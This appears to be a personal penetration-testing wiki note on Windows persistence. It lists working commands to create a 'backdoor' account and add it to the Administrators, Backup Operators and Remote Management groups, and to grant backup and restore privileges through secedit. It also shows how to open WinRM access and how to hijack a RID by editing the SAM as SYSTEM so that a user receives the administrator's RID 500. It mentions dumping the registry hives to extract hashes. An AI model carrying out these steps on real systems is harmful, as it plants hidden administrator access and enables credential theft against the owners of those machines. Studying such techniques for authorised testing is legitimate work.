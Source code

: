 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

### Adding users to privileged groups
```powershell
# Creating user
net user backdoor /add

# Adding user to the administrators group
net localgroup "administrators" backdoor /add

# Adding user to "Backup Operators" group
net localgroup "Backup Operators" backdoor /add

# Adding user to "Remote Management Users" for RDP
net localroup "Remote Management users" backdoor /add
```

- By default, the UAC strips the remote user of it's administrative privs, this can be disabled. [LocalAccountTokenFilterPolicy](Policies.md#LocalAccountTokenFilterPolicy)
- As a member of "Backup Operators", we can now save system and sam hives from the regsitery and use Impacket to get the system hash. [secretsdump.py](TechLexicon/Penetration%20Testing/Reference/Tools/Impacket.md#secretsdump.py)

### Assigning privileges to users.
- By default, the 'backup Operators' have two privileges:
	- SeBackupPrivilege: User can read write any file in the system, ignoring any DACL in place
	- SeRestorePrivilege: User can read read any file in the system, ignoring any DACL in place
- A user can be assigned these privileges using `secedit` command.
```powershell
# Export current configuration
secedit /export /cfg config.inf

# Edit the config.inf to add the username in front of the privielge
SeBackupPrivilege = *S-1-5-32-544,*S-1-5-32-551,backdoor
SeRestorePrivilege = *S-1-5-32-544,*S-1-5-32-551,backdoor

# convert the config.inf file to config.sdb
secedit /import /cfg config.inf /db config.sdb
secedit /configure /db config.sdb /cnf /config.inf
```

### Enable win-rm without adding user to "Remote Management Users"
- Add the user to the security descriptor of Win-RM.
```powershell
# this will launch the configuration windows for the Win-RM's security descriptor
Set-PSSessionconfiguration -Name Microsoft.Powershell -showSecurityDescriptorUI
```

### RID hijacking
[SID](TechLexicon/Penetration%20Testing/Reference/Windows/Windows%20Internals/Uncategorized/SID.md)
- Changing the effective RID of a user to RID of an administrator so that when the user logs in, it will have the same access tokens as an administrator.
- Effective RID is stored in `F` key at:
```cmd
HKLM\SAM\SAM\Domain\Account\Users\RID(hex)
```
- SAM is restricted to SYSTEM only.
```powershell
PsExec64.exe -i -s regedit
```
- Effective RID is located at `0x30` location in little endian format
- After changing the effective RID to 500 (0x01F4), the next time users logs in, it will get Administrators privileges.